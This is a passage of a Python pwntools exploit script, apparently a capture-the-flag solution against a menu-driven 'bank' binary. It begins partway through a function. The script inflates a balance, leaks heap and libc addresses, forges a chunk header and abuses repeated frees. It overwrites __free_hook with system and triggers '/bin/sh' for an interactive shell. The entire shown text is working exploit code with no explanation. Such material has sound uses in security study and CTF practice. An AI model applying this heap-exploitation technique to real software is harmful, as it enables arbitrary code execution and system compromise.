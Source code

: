 ```python

    def ghost(size_: Money):
        sh.sendlineafter(b":)", to_bytes(size_))

    def abyss(content: AnyStr):
        sh.sendline(to_bytes(content))
    menu(3)
    sh.sendlineafter(b"who?", who.encode())
    sh.sendlineafter(b"How much?", to_bytes(money))
    return locals().get(who)(*arg)


def put(money: Money):
    menu(4)
    sh.sendlineafter(b"How Much?", to_bytes(money))


def gdb_(times: int = None, arg: str = ''):
    gdb.attach(sh, arg)
    pause(times)


login('114514', '114514')
put(0x190)
cash = 0x190
while cash <= 1000000:
    deposit(cash)
    put(cash)
    cash += cash

transfer('ghost', 11, 0x100)
transfer('ghost', 11, 0xe0)
heap_addr = int(transfer('admin', 0x118/8), 16) - 0x10

transfer('guest', 6, p64(0x431).rjust(0x10, b'\x00'), False)
for _ in range(40):
    transfer('guest', 6, b'1')
transfer('hacker', 51, heap_addr+0x3c0)
malloc_hook_addr = int(transfer('admin', 0x120 / 8), 16) - 96 - 0x10
libc_base = malloc_hook_addr - libc.sym['__malloc_hook']
free_hook_addr = libc_base + libc.sym['__free_hook']
system_addr = libc_base + libc.sym['system']

for i in range(7):
    transfer('hacker', 51, heap_addr+0x3f0+i*0x20)
transfer('hacker', 51, heap_addr+0x3f0+7*0x20)
transfer('hacker', 51, heap_addr+0x3f0+8*0x20)
transfer('hacker', 51, heap_addr+0x3f0+7*0x20)

for _ in range(7):
    transfer('guest', 6, b'/bin/sh\x00')
transfer('guest', 6, p64(free_hook_addr-0x8).ljust(0x10, b'\x00'), False)
transfer('guest', 6, b'')
transfer('guest', 6, b'')
transfer('guest', 6, p64(system_addr).rjust(0x10, b'\x00'), False)
transfer('hacker', 51, heap_addr+0x3f0)

sh.interactive()

```

